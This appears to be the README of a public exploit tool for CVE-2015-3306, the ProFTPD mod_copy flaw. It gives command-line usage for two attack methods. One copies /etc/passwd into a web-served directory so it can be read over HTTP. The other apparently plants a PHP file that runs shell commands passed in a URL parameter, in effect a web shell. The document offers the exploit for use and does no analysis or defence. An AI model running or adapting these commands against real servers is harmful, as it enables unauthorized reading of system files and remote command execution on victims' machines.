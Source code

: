 # cpx_proftpd.py (by daldana)

Tool for exploit [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) reported by Vadim Melihow

METHOD 1:
--------
usage: 

```python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>```

ex:

```python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt```

then try:

```http://127.0.0.1/pass.txt```

METHOD 2:
--------

usage: 

```python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>```

ex:

```python cpx_proftp.py 2 127.0.0.1 /var/www/html```

then try:

```http://127.0.0.1/xxx.php?img=ls```
